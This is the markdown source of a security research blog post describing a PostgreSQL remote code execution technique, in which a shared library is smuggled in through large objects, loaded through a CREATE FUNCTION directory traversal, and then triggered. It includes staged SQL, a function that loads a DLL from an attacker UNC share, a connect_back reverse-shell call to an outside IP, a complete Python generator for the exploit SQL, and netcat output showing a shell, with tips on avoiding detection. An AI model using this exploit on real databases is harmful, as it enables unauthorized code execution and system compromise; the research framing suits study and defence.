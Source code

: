 ```yaml
---
layout: post
title: "SQL Injection Double Uppercut :: How to Achieve Remote Code Execution Against PostgreSQL"
date: 2020-06-26 09:00:00 -0500
categories: blog
---
```


![Postgres](/assets/images/sql-injection-double-uppercut/pg.png "Postgres")

When I was researching exploit primitives for the SQL Injection vulnerabilities discovered in [Cisco DCNM](/blog/2020/01/14/busting-ciscos-beans-hardcoding-your-way-to-hell.html), I came across a generic technique to exploit SQL Injection vulnerabilities against a PostgreSQL database. When developing your exploit primitives, it's always prefered to use an *application technique*, that doesn't rely on some other underlying technology.
<!--more-->

TL;DR; *I share yet another technique to achieve remote code execution against PostgreSQL Database.*

An application technique would be the ability to compromise the database integrity and leverage the trust between the application code and the database. In the case of Cisco DCNM, I found 4 different techniques, 2 of which I blogged about (directory traveral and deserialization).

## Prior Research

Although I didn't know it at the time, [Jacob Wilkin](https://twitter.com/Jacob_Wilkin) had [reported a simpler approach](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) to achieving code execution against PostgreSQL by (ab)using [copy from program](https://www.postgresql.org/docs/12/sql-copy.html). Recently, Denis Andzakovic also [detailed](https://pulsesecurity.co.nz/articles/postgres-sqli) his way of gaining code execution against PostgreSQL as well by (ab)using read/writes to the `postgresql.conf` file.

I was originally going to sit on this technique, but since Denis exposed the power of `lo_export` for exploitation, I figured one more nail on the coffin wouldn't hurt ;->

I did some testing and discovered that under windows, the NETWORK_SERVICE cannot modify the `postgresql.conf` file, so Denis's technique is *nix specific. However, his technique doesn't require stacked queries, making it powerful in certain contexts.

## CREATE FUNCTION obj_file Directory Traversal

- CVE: N/A
- CVSS: 4.1 [(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L))

### Environment

This technique works on both \*nix and Windows but does require stacked queries since we are leveraging the [create function](https://www.postgresql.org/docs/12/sql-createfunction.html) operative.

### Summary

On the latest versions of PostgreSQL, the `superuser` is no longer allowed to load a shared library file from anywhere else besides `C:\Program Files\PostgreSQL\11\lib` on Windows or `/var/lib/postgresql/11/lib` on \*nix. Additionally, this path is **not writable** by either the NETWORK_SERVICE or postgres accounts.

However, an authenticated database `superuser` can write binary files to the filesystem using "large objects" and can of course write to the `C:\Program Files\PostgreSQL\11\data` directory. The reason for this should be clear, for updating/creating tables in the database.

The underlying issue is that the `CREATE FUNCTION` operative allows for a directory traversal to the data directory! So essentially, an authenticated attacker can write a shared library file into the data directory and use the traversal to load the shared library. This means an attacker can get native code execution and as such, execute arbitrary code.

### Attack Flow

**Stage 1 -** We start by creating an entry into the `pg_largeobject` table.

```sql
select lo_import('C:/Windows/win.ini', 1337);
```

We could have easily used a UNC path here (and skip step 3), but since we want a platform independant technique, we will avoid this.

**Stage 2 -** Now we modify the `pg_largeobject` entry to contain a complete extension. This extension needs to be compiled against the exact major version of the target PostgreSQL database as well as matching its architecture.

For a file that is > 2048 bytes in length, the `pg_largeobject` table uses the `pageno` field. So we must break our file up into chunks of size 2048 in bytes.

```sql
update pg_largeobject SET pageno=0, data=decode(4d5a90...) where loid=1337;
insert into pg_largeobject(loid, pageno, data) values (1337, 1, decode(74114d...));
insert into pg_largeobject(loid, pageno, data) values (1337, 2, decode(651400...));
...
```

It maybe possible to skip stage 1 (and only performing a single statement execution for stage 2) by using [object identifier types](https://www.postgresql.org/docs/8.1/datatype-oid.html) within PostgreSQL, but I have not had the time to confirm this.

**Stage 3 -** Now we can write our binary into the data directory. Remember, we can't use traversals here since that is checked, but even if we could, strict file permissions for the NETWORK_SERVICE account exist and we have limited options.

```sql
select lo_export(1337, 'poc.dll');
```

**Stage 4 -** Now, let's trigger the loading of the library.

I demonstrated in a class I taught a few years back that you can use fixed paths (including UNC) to load extensions against PostgreSQL version 9.x, thus gaining native code execution. [@zerosum0x0](https://twitter.com/zerosum0x0) [demonstrated this](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) by using the file write technique with a fixed path on the filesystem. But back then, permissions on the filesystem were not as restrictive.

```sql
create function connect_back(text, integer) returns void as '//attacker/share/poc.dll', 'connect_back' language C strict;
```

However, a few years passed and the PostgreSQL developers decided to block fixed paths and alas, that technique is now dead. But we can simply traverse from the lib directory and load our extension! The underlying code of the `create function` appends the `.dll` string, so don't worry about appending it:

```sql
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
```

**Stage 5 -** Trigger your reverse shell.

```sql
select connect_back('192.168.100.54', 1234);
```
			
### Things to consider

- You can also load DllMain, but pwning your error log is a one way ticket to detection!
- As mentioned, you will need to compile the dll/so file using the same PostgreSQL version including architecture.
- You can download the extension I used [here](https://github.com/sourceincite/tools/blob/master/pgpwn.c) but you will need to compile it yourself.

### Fun Facts

ZDI initially acquired this case but never published an advisory and I was later told that the vendor wasn't patching the issue since it's considered a *feature not a bug*.

### Automation

This code will generate a poc.sql file to run on the database as the superuser. Example:

```
steven@pluto:~/postgres-rce$ ./poc.py 
(+) usage ./poc.py <connectback> <port> <dll/so>
(+) eg: ./poc.py 192.168.100.54 1234
steven@pluto:~/postgres-rce$ ./poc.py 192.168.100.54 1234 si-x64-12.dll
(+) building poc.sql file
(+) run poc.sql in PostgreSQL using the superuser
(+) for a db cleanup only, run the following sql:
    SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
    DROP FUNCTION connect_back(text, integer);
steven@pluto:~/postgres-rce$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 192.168.100.122 49165 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\PostgreSQL\12\data>whoami
nt authority\network service

C:\Program Files\PostgreSQL\12\data>
```

```py
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## References

- [https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)
- [https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)